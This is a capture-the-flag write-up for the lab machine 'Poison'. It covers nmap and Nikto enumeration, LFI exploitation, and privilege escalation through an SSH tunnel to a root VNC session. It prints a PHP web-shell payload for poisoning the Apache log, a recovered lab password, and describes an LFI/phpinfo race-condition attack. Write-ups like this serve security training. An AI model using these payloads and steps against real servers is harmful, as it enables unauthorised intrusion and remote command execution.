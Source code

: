 # Poison

## Information Gathering
10.10.10.84<br>
Poison<br>

Software Versions
- OpenSSH 7.2
- Apache httpd 2.4.29
- PHP 5.6.32

## Enumeration
Start with an nmap scan:
```bash
# Nmap 7.92 scan initiated Fri Feb 18 15:19:10 2022 as: nmap -sC -sV -oN nmap/poison.nmap 10.10.10.84
Nmap scan report for 10.10.10.84
Host is up (0.062s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2 (FreeBSD 20161230; protocol 2.0)
| ssh-hostkey: 
|   2048 e3:3b:7d:3c:8f:4b:8c:f9:cd:7f:d2:3a:ce:2d:ff:bb (RSA)
|   256 4c:e8:c6:02:bd:fc:83:ff:c9:80:01:54:7d:22:81:72 (ECDSA)
|_  256 0b:8f:d5:71:85:90:13:85:61:8b:eb:34:13:5f:94:3b (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((FreeBSD) PHP/5.6.32)
|_http-server-header: Apache/2.4.29 (FreeBSD) PHP/5.6.32
|_http-title: Site doesnt have a title (text/html; charset=UTF-8).
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Feb 18 15:19:30 2022 -- 1 IP address (1 host up) scanned in 20.09 seconds

```
I also run a Nikto scan
```bash
- Nikto v2.1.6/2.1.5
+ Target Host: 10.10.10.84
+ Target Port: 80
+ GET Retrieved x-powered-by header: PHP/5.6.32
+ GET The anti-clickjacking X-Frame-Options header is not present.
+ GET The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ GET The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ HEAD PHP/5.6.32 appears to be outdated (current is at least 7.2.12). PHP 5.6.33, 7.0.27, 7.1.13, 7.2.1 may also current release for each branch.
+ HEAD Apache/2.4.29 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ TNNUJRCH Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ OSVDB-877: TRACE HTTP TRACE method is active, suggesting the host is vulnerable to XST
+ GET /phpinfo.php: Output from the phpinfo() function was found.
+ OSVDB-12184: GET /?=PHPB8B5F2A0-3C92-11d3-A3A9-4C7B08C10000: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-3233: GET /phpinfo.php: PHP is installed, and a test script which runs phpinfo() was found. This gives a lot of system information.
```

## Exploitation
There are actually three known AV's for this box.

### Pwdbackup.txt
This is how you cheese the box.<br>
There is a file hosted on the webserver title pwdbackup.txt. Fetching this file yields a string which was encoded in base64 13 times. Decoding this gives you the password for a user. There is a LFI vulnerability for browse.php which allows you to exfiltrate information. The /etc/passwd file shows the username to be charix. This gives you foothold on the box.
```
charix:Charix!2#4%6&8(0
```

### PHP Race Condition
<a href="https://insomniasec.com/cdn-assets/LFI_With_PHPInfo_Assistance.pdf">This</a> research paper shows this really cool race condition when a webserver has the "file_upload" feature set and is also vulnerable to a LFI vulnerability. It's a bit dense so there is <a href="https://github.com/sinsinology/phpinfo-Local-File-Inclusion">this</a> PoC which is a bit easier to understand.<br>
Essentially what the script does is,
1. Make a very large request. This causes the server 2-3 ms extra time to compute and thus, the file stays on the server for much longer.
2. Use LFI to hit the file before it gets deleted from cache

I actually get the script off of <a href="https://github.com/swisskyrepo/PayloadsAllTheThings">PayloadAllTheThings</a>. <a href="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/phpinfolfi.py">This</a> is the script I used. I made some minor changes such as the PHP payload to be used. I also had to change all instances of ">" into "&gt" because of PHP entities. You also have to remove the NULL byte in LFIREQ. After a few seconds, I get a reverse shell!<br>
Note: On BSD, files for the webserver are stored at /usr/local/www/apache24/data by default.

### Log Poisoning
This is the intended method for getting foothold on the box.<br>
The log file for apache2 in OpenBSD is located in /var/log/httpd-access.log. We can view this page using the LFI. The key thing to note is that the user-agent is included in the access log. Below is the result of me using cURL to get a file on the server
```
10.10.14.122 - - [20/Feb/2022:03:13:17 +0100] "GET /browse.php?file=/var/log/httpd-access.log HTTP/1.1" 200 5759905 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0"
10.10.14.122 - - [20/Feb/2022:03:13:18 +0100] "GET /favicon.ico HTTP/1.1" 404 209 "http://10.10.10.84/browse.php?file=/var/log/httpd-access.log" "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0"
10.10.14.122 - - [20/Feb/2022:03:14:38 +0100] "GET /browse.php?file=/var/log/httpd-access.log HTTP/1.1" 200 5760312 "-" "curl/7.81.0"
```
Using <b><?php phpinfo(); ?></b> allows me to render the phpinfo of the server from the log file. I use the payload:
```php
Mozilla/5.0 <?php echo system($_GET['cmd']); ?> Firefox/78.0
```
In the user agent. After that it's as simple as setting the "cmd" parameter and executing commands to get a reverse shell.

## Privilege Escalation
Looking at all the services/processes running as root:
```bash
ps aux | grep ^root

root   620  0.0  0.7  57812  7052  -  Is   04:26    0:00.00 /usr/sbin/sshd
root   625  0.0  1.1  99172 11516  -  Ss   04:27    0:00.03 /usr/local/sbin/httpd -DNOHTTPACCEPT
root   643  0.0  0.6  20636  6140  -  Ss   04:28    0:00.02 sendmail: accepting connections (sendmail)
root   653  0.0  0.2  12592  2436  -  Is   04:28    0:00.00 /usr/sbin/cron -s
root   709  0.0  0.8  85228  7768  -  Is   04:29    0:00.01 sshd: charix [priv] (sshd)
root   529  0.0  0.9  23620  8872 v0- I    04:26    0:00.02 Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /root/.Xauthority -geometry 1280x800 -depth 24 -rfbwait 120000 -rfbauth /root/.vnc/passwd -rfbport 5901 -loc
root   540  0.0  0.7  67220  7064 v0- I    04:26    0:00.02 xterm -geometry 80x24+10+10 -ls -title X Desktop
root   541  0.0  0.5  37620  5312 v0- I    04:26    0:00.01 twm
```
VNC is running as root. We can also see what services are running on what ports.
```bash
netstat -an | grep LISTEN

tcp4       0      0 127.0.0.1.25           *.*                    LISTEN
tcp4       0      0 *.80                   *.*                    LISTEN
tcp6       0      0 *.80                   *.*                    LISTEN
tcp4       0      0 *.22                   *.*                    LISTEN
tcp6       0      0 *.22                   *.*                    LISTEN
tcp4       0      0 127.0.0.1.5801         *.*                    LISTEN
tcp4       0      0 127.0.0.1.5901         *.*                    LISTEN
```
VNC is running on the localhost interface. We can perform a SSH tunnel/SSH port-forwarding. To port forward:
```bash
ssh -L 5901:127.0.0.1:5901 charix@10.10.10.84
```
This command pretty much says:
- Listen on my machine on port 5901 (-L)
- Any traffic that goes through ssh (ssh charix@10.10.10.84)
- Send to localhost on port 5901
We can use vncviewer to connect on our localhost. This goes through SSH and on the other side gets forwarded to 127.0.0.1
```bash
vncviewer -passwd secret 127.0.0.1::5901
``` 
This opens up a sort-of RDP session as root.
